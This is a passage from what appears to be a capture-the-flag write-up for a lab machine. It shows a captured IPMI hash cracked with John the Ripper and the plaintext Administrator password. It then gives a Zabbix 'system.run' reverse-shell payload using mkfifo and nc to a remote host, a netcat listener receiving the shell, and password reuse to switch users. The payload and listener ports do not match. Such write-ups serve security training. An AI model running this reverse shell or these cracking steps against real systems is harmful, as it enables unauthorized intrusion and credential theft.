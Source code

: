 * John cracked the password

```bash
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt zabbixlogin 
Using default input encoding: UTF-8
Loaded 1 password hash (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepumkinpie1  (10.129.99.116 Administrator)
1g 0:00:00:02 DONE (2021-11-15 10:10) 0.4201g/s 3139Kp/s 3139Kc/s 3139KC/s in_199..iargxe
Use the "--show" option to display all of the cracked passwords reliably
Session completed

└─$ john  zabbixlogin --show 
10.129.99.116 Administrator:ilovepumkinpie1

1 password hash cracked, 0 left
```

* So now we have the creds \[ Administrator : ilovepumkinpie1 ]

### Initial Foothold

* I researched for a bit and found this intresting
  * https://stackoverflow.com/questions/24222086/how-to-run-command-on-zabbix-agents
* After moving around the website I figured out that `add items` was vulnerable

![image](https://user-images.githubusercontent.com/56447720/141724103-0b775ae7-12af-4136-a0fd-b257ce77ba03.png)

* The payload
  * system.run\[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9999 >/tmp/f &,nowait]

![image](https://user-images.githubusercontent.com/56447720/141724345-1db0f62e-b04c-44b4-8381-faf76f4510be.png)

* Set up a nc listener and get the shell

```bash
└─$ nc -nvlp 9002
listening on [any] 9002 ...
connect to [10.10.14.47] from (UNKNOWN) [10.129.99.116] 40614
sh: 0: can't access tty; job control turned off
$ whoami     
zabbix
```

* As there were no SSH ports open we don't get any stabalize shell, let's get work with this shell

### Get User flag / escalting user privileges

```bash
# Use the zabbix login creds to get ipmi-svc user

zabbix@shibboleth$ su ipmi-svc
password : ilovepumkinpie1

ipmi-svc@shibboleth$ cat /home/ipmi-svc/user.txt
<--SNIP-->
 
```
